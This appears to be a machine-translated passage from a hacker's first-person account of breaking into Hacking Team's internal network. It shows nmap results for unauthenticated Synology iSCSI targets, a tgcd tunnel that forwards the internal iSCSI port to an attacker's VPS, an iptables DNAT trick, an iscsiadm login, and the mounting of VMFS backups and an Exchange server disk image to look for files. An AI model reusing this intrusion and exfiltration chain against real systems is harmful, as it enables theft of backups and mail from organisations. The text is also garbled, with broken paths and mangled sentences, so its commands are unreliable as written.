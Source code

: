 
- [9 - Crossed Cables] ------------------------------------------ -------------

Although it was fun to listen to recordings and see Hacking webcam images
Team developing its malware, it was not very useful. Your insecure copies of
security were the vulnerability that opened its doors. According to his
documentation [1], your iSCSI devices must be in a separate network,
but nmap finds ones in its subnet 192.168.1.200/24:

Nmap scan report for ht-synology.hackingteam.local (192.168.200.66)
...
3260 / tcp open iscsi?
| iscsi-info:
| Target: iqn.2000-01.com.synology: ht-synology.name
| Address: 192.168.200.66:3260,0
| _ Authentication: No authentication required

Nmap scan report for synology-backup.hackingteam.local (192.168.200.72)
...
3260 / tcp open iscsi?
| iscsi-info:
| Target: iqn.2000-01.com.synology: synology-backup.name
| Address: 10.0.1.72:3260,0
| Address: 192.168.200.72:3260,0
| _ Authentication: No authentication required

iSCSI needs a kernel module, and it would have been difficult to compile it for the
Embedded system Resend the port to mount it from a VPS:

VPS: tgcd -L -p 3260 -q 42838
Embedded system: tgcd -C -s 192.168.200.72:3260 -c VPS_IP: 42838

VPS: iscsiadm -m discovery -t sendtargets -p 127.0.0.1

Now iSCSI finds the name iqn.2000-01.com.synology but has problems
at the time of mounting it because it believes that its address is 192.168.200.72 instead of
127.0.0.1

The way I solved it was:
iptables -t nat -A OUTPUT -d 192.168.200.72 -j DNAT --to-destination 127.0.0.1

And now after:
iscsiadm -m node --targetname = iqn.2000-01.com.synology: synology-backup.name -p 192.168.200.72 --login

... the device file appears! We assemble it:
vmfs-fuse -o ro / dev / sdb1 / mnt / tmp

and we found backup copies of several virtual machines. The server
Exchange seems the most interesting. It's too big to download,
but we can mount it remote and look for interesting files:
$ losetup / dev / loop0 Exchange.hackingteam.com-flat.vmdk
$ fdisk -l / dev / loop0
/ dev / loop0p1 2048 1258287103 629142528 7 HPFS / NTFS / exFAT

